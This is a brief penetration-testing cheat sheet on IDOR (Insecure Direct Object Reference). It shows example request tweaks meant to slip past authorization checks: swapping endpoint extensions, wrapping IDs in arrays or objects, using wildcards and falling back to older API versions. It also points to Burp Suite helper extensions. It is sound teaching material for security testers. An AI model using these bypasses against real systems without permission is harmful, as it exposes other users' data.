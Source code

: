 # Insecure Direct Object Reference (IDOR)

### Change file extension

Try to change the extension of the endpoint that you have.

```bash
#Endpoint found
/users/password -> 401

#Endpoints to test
/users/password.json
/users/password.xml
```

### Convert request body

Convert the body of the request to array or to include a json on it.

```bash
#Original body
{"id":1}

#Bypasses
{"id":[1]}
{"id":{"id":1}}
```

### Test wildcards

Change the identifier of the request to a wildcard.

```bash
#Original request
/api/v1/userlist/user1

#Wildcard bypasses
/api/v1/userlist/*
```

### Check another version

Many API endpoints expose the version in the request, try to change it to use another older.

```bash
#Original request
/api/v3/user/user3

#Changed version of the same endpoint
/api/v2/user/user3
/api/v1/user/user3
```

### References

{% embed url="https://portswigger.net/bappstore/f9bbac8c4acf4aefa4d7dc92a991af2f" %}
Burp Suite extension aimed at helping the penetration tester to detect authorization vulnerabilities
{% endembed %}

{% embed url="https://portswigger.net/bappstore/f89f2837c22c4ab4b772f31522647ed8" %}
Burp Suite extension that automatically repeats requests, with replacement rules and response diffing
{% endembed %}
